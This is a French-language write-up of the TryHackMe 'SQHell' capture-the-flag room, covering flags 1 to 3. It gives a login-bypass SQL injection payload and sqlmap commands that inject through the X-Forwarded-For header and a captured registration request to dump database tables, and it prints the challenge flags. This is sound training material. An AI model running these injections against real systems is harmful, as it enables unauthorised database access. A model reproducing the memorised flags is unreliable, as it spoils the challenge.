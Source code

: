 # SQHell #

## Task 1 Find all the Flags! ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.136.88 sqhell.thm' >> /etc/hosts" 
[sudo] Mot de passe de tim : 
```

**Flag 1**

![page](./Task1-01.png)

 Dans la page login on fait un simple injection en mettant : 'or 1=1 -- - dans le champ username et password.  

![page](./Task1-02.png)

Le flag est : THM{FLAG1:E786483E5A53075750F1FA792E823BD2}

**Flag 2**

![page](./Task1-03.png)

On nous que dans les termes et conditions que l'on enregistre l'ip pour des objectifs d'analyse, ceci peut être un point d'entrée d'une injection.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://sqhell.thm/ -D sqhell_1 -T flag --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:11:42 /2021-10-30/

...
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15} |
+----+---------------------------------------------+

...
```

Avec sql map on fait un injection sur la redirection de l'ip et il récupère le flag.  
Le flag est : THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}    

**Flag 3**

![page](./Task1-04.png)   
![page](./Task1-05.png)   

Sur la page d'enregistrement on teste un nom est on intercepte la requête avec Burp.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r register.req --dbms mysql -D sqhell_3 -T flag --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:29:44 /2021-10-30/

[20:29:44] [INFO] parsing HTTP request from 'register.req'
[20:29:45] [INFO] testing connection to the target URL
...
[20:31:03] [INFO] retrieved: 1
[20:31:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                      
THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}
[20:33:50] [INFO] retrieved: 1
Database: sqhell_3
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308} |
+----+---------------------------------------------+

[20:33:53] [INFO] table 'sqhell_3.flag' dumped to CSV file '/home/tim/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_3/flag.csv'
[20:33:53] [INFO] fetched data logged to text files under '/home/tim/.local/share/sqlmap/output/sqhell.thm'
...
```

Sqlmap extrait le flag sur l'injection sql faite sur l'utilisateur et extrait le flag.   
Le flag est : THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}   

